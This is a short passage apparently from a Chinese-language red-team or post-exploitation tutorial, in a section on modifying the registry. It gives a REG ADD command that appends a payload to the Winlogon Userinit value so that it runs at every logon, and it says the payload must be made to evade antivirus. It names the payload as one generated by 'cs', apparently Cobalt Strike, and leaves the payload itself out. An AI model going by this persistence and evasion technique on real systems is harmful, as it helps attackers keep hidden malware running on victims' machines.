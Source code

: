 ![image-20230817120650521](assets/image-20230817120650521.png)

### 6.2.2. 修改注册表

这里一定要注意payload一定要免杀，否则百分比会被杀。

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\System32\userinit.exe,payload"   ##要注意这个payload就是将cs生成的paylod复制上去，由于太大了，就不输入了。
```

![image-20230817121411784](assets/image-20230817121411784.png)
